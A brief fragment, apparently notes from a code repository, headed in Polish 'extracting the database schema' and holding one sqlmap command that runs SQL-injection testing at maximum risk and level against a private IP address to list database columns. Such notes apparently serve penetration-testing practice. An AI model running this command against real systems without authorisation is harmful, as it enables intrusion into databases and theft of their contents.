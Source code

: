 
Wyciąganie schematu bazy danych
```agsl
sqlmap -u http://10.34.28.243/?query=query -p query --risk 3 --level 5 -columns
```